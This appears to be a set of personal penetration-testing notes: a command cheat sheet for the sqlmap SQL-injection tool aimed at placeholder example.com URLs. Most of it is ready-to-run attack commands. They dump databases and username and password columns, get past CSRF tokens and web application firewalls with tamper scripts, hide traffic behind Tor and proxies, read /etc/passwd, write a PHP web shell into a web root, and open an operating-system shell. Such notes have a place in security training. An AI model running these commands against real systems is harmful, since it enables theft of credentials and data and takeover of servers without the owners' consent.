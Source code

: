 Advanced help
```shell
sqlmap -hh
sqlmap --parse-errors
sqlmap -t /tmp/traffic     <--Log traffic content/each request
sqlmap -v 6                <--Verbose mode 6 see requests.. 3 see payloads
sqlmap --proxy             <--Use a proxy like Burp to replay requests
```
### SQLMap Basic Attacks

> [!NOTE] NOTE
> It's always good to randomize the agent every time with `--random-agent`

Batch test (`-u` for GET `--data` for POST)
```shell
sqlmap -u "http://www.example.com/vuln.php?id=1" --batch
sqlmap "http://www.example.com/vuln.php" --data 'id=1&user=test'--batch
sqlmap "http://www.example.com/vuln.php" --data 'id=1*&user=test'--batch
```

> [!NOTE] Note
> Using `Copy as cURL` within firefox is the best way to attack a specific target
> Having the * beside a data parameter tells SQLMap to focus on it

Using HTTP Request from Burp
```shell
sqlmap -r req.txt
```
Other switches: cookies, headers, user agents, referer
```shell
sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
sqlmap ... -H='Cookie:PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'

sqlmap --user-agent="..."
sqlmap ... --random-agent
sqlmap ... --mobile

sqlmap --referer='127.0.0.1'
sqlmap --method PUT
```
Inject into header values
```shell
sqlmap ... --cookie="id=1*"
```
### Tuning
Increase  amount of payloads and risk of DoS or loss of data
```shell
sqlmap ... --level=5 --risk=3
sqlmap ... --prefix="%'))" --suffix="-- -"
sqlmap ... --prefix='`)'
```

> [!NOTE] NOTE
>  in special cases of SQLi vulnerabilities, where usage of OR payloads is a must (e.g., in case of login pages), we may have to raise the risk level ourselves.
>  This is because OR payloads are inherently dangerous in a default run, where underlying vulnerable SQL statements (although less commonly) are actively modifying the database content (e.g. DELETE or UPDATE)

Specify detection method
```shell
sqlmap ... --code=200          <-- ex: HTTP code 200 TRUE 500 FALSE
sqlmap ... --titles            <-- difference in detection is in the HTML title
sqlmap ... --string=success    <-- "success" is shown if TRUE and not if FALSE
sqlmap ... --technique=BEU     <-- Only do boolean blind,error and UNION payloads
sqlmap ... --union-cols=5      <-- Specify amount of columns for Union based
```

> [!NOTE] IMPORTANT
> Sometimes SQLMap can't find everything on it's own. It's important to tune and tweak it by adding different `prefixes` and even specifying the amount of `columns` if you think you know the amount

### Database Enumeration
Banner, current user, database and is database Admin
```shell
sqlmap ...  --banner --current-user --current-db --is-dba
```
List databases, tables, table contents, specific table rows (start at row 3 stop at 10)
```shell
sqlmap ... --dbs
sqlmap ... -D testDB --tables
sqlmap ... -D testdb -T users --dump
sqlmap ... -D testdb -T users -C username,password --dump
sqlmap ... -D testdb -T users -C username,password --dump --start=3 --stop=10
```
Conditional enumeration
```shell
sqlmap ... -D testdb -T users --dump --where="username LIKE 'admin%'"
```
Dump all tables and databases
```shell
sqlmap ... --dump
sqlmap ... --dump-all
sqlmap ... --dump-all --exclude-sysdbs
```
### Advanced Database Enumeration
Retrieve the structure of all of the tables to have a complete overview of the database architecture
```shell 
sqlmap ... --schema
```
Search for table and column name in all databases (uses `LIKE`) - DO FOR ALL DBs
```shell
sqlmap ... --search -T user
sqlmap ... --search -C password
```
Enumerate system tables for passwords
```shell
sqlmap ... --passwords
```
### Bypass Web App Protections
Bypass CSRF by specifying the token name & contents. **CHECK FOR ANY TOKEN PARAMETERS IN REQUESTS**
```shell
sqlmap ... --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"
```
Unique value bypass. Randomize values of parameters in payloads. **CHECK FOR WHATS BEING RANDOMIZED/CHANGED IN REQUESTS** 
```shell
sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5
```
Calculated Parameter bypass. Used when a web application expects a proper parameter value to be calculated based on some other parameter value(s).Most often, one parameter value has to contain the message digest (e.g. `h=MD5(id)`) of another one. Python code needed injunction with `--eval`
```shell 
sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5
```
Proxies and Tor
```shell
sqlmap ... --proxy="socks4://177.39.187.70:33283"
sqlmap ... --proxy-file=/opt/proxies.txt
sqlmap ... --tor --check-tor
```
Skip WAF detection to create less noise
```shell
sqlmap ... --skip-waf
```
Tamper scripts are used to bypass WAFs/IPS solutions by obfuscating the payloads
```shell
sqlmap ... --tamper=between,randomcase
sqlmap ... --list-tampers
```
### OS Exploitation
Need to be database administrator to preform the following
```shell 
sqlmap ...  --file-read "/etc/passwd"

sqlmap ... --file-write "shell.php" --file-dest "/var/www/html/shell.php"

sqlmap ... --os-shell
sqlmap ... --os-shell --technique=E
```